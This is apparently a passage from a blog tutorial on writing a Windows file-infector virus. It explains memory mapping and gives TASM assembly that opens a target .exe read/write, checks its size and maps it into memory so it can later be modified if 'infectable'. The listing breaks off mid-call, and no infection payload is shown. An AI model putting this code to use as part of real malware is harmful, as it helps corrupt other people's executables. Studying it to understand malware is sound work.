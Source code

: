 There are two paths forward to read and write data from the file handle. Either using [`SetFilePointer`](https://docs.microsoft.com/en-us/windows/desktop/api/fileapi/nf-fileapi-setfilepointer) and [`ReadFile`](https://docs.microsoft.com/en-us/windows/desktop/api/fileapi/nf-fileapi-readfile)/[`WriteFile`](https://docs.microsoft.com/en-us/windows/desktop/api/fileapi/nf-fileapi-writefile) or using memory mapping. I chose to use memory mapping because it involved making less API calls and seemed slightly more straight forward.

Memory mapping requires calling [`CreateFileMappingA`](https://docs.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createfilemappinga) using the file handle from `CreateFileA` to get yet another handle, this time to a file mapping object. I was able to use the file mapping object handle with `MapViewOfFile` to map a specified portion of the underlying file into memory. The return value from this function is a pointer to the region of memory the file was mapped and it's possible to read and write from this region to access and change the file's contents.

```tasm {linenos=table}
; inputs:   `targetFile`       -> the path to an .exe in the PWD to check
; outputs:  `targetFileHandle` -> handle to the target .exe
;           `targetFileSize`   -> the target's filesize (lower bound)
;           `targetMapHandle`  -> a handle to a memory map of the target .exe
;           `targetP`          -> a pointer to the start of the memory map
;
mapfile:
  ; Open a file handle to the targetFile. Use READ + WRITE so we can modify 
  ; the file easily if it turns out to be infectable.
  mov eax, offset targetFile
  call CreateFileA, \
         eax,\                           ; file name
         GENERIC_READ + GENERIC_WRITE,\  ; attributes
         0h,\                            ; share mode (not used)
         0h,\                            ; sec attributes (not used)
         OPEN_EXISTING,\                 ; creation disposition
         FILE_ATTRIBUTE_NORMAL,\         ; file attributes
         0h                              ; template handle (???)
  cmp eax, INVALID_HANDLE_VALUE
  je findnext
  mov [targetFileHandle], eax

  ; Get the target file's original size
  call GetFileSize, eax, 0
  cmp eax, INVALID_HANDLE_VALUE
  je findnext
  mov [targetFileSize], eax

  ; The target file should at least be big enough for a full IMAGE_DOS_HEADER
  cmp eax, size IMAGE_DOS_HEADER
  jle error

  ; Create a read/write file mapping for the entire targetFile
  mov eax, [targetFileHandle]
  call CreateFileMappingA, \
         eax,\                 ; file handle
         0h,\                  ; sec attributes (not used)
         PAGE_READWRITE,\      ; attributes
         0h,\                  ; size high
         0h,\                  ; size low
         0h                    ; name (null for no name)
  cmp eax, 0h
  je findnext
  mov [targetMapHandle], eax

  ; Map the entire targetFile into memory
  call MapViewOfFile, \
    eax,\                      ; mapping object handle
    FILE_MAP_WRITE,\           ; access
    0h,\                       ; offset high
```

[welcome]: /2019/01/lets-write-a-virus/
[setup]: /2019/01/getting-set-up/